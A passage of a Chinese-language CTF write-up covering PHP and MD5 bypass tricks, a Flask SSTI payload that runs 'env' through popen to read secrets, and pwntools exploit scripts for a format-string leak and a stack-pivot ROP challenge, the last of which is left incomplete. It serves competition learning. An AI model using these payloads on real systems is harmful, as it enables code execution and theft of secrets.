 [php 变量覆盖](https://www.cnblogs.com/zzjdbk/p/12985530.html)

[preg_match()绕过](https://sakurahack-y.github.io/2021/10/26/preg-match%E6%AD%A3%E5%88%99%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/)

[md5 强弱类型比较](https://segmentfault.com/a/1190000039189857)

[hash 拓展攻击脚本](https://github.com/shellfeel/hash-ext-attack/tree/master)（实际没有用到,怎么出题的 0.0）

**?a=QLTHNDT&b=PJNPDWY&O%20U%20C=100%0a&md5=ouc**

**POST:md51[]=1&md52[]=2**

**cookie:md5=06d92f344c7d8c89cb164353ca0fa070**

### 菜狗工具#1

[flask 之 ssti 模版注入从零到入门 - 先知社区](https://xz.aliyun.com/t/3679?time__1311=n4%2BxnD0DBDgDc7D9DUO4BqOoT47KaW4WemD#toc-8)

payload：

找到 132 可用，global 找环境变量找到 flag

`print("".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('env').read())`

## PWN

### padded-fmt

```python
from pwn import *

elf = ELF('./padfmt')
p = process('./padfmt')
# p = remote('competition.blue-whale.me',20132)

# gdb.attach(p)
p.sendline(b'%x%x%x%x%x%x%pAAAA')
p.recvuntil(b'0x')
stack = int(p.recvuntil(b'AAAA').rstrip(b'A'), 16)
flag = stack + 0x470 
p.sendline(b'%x%x%x%x%x%x%x%x%x%x%x%x%x%sAAAA'+p64(flag))
p.interactive()
```

### baby_stack

经典栈迁移

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
elf = ELF('./baby_stack')
libc = ELF('./libc-2.23.so')
p = process('./baby_stack')
# p = remote('competition.blue-whale.me',20135)

p.send(b'a'*0x140) 
stack = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))-0x150
print(hex(stack))
pop_rdi = 0x400b93
leave = 0x400a74

exp = p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['func'])
exp =exp.ljust(0x140, b'\x00')+p64(stack-8)+p64(leave)

```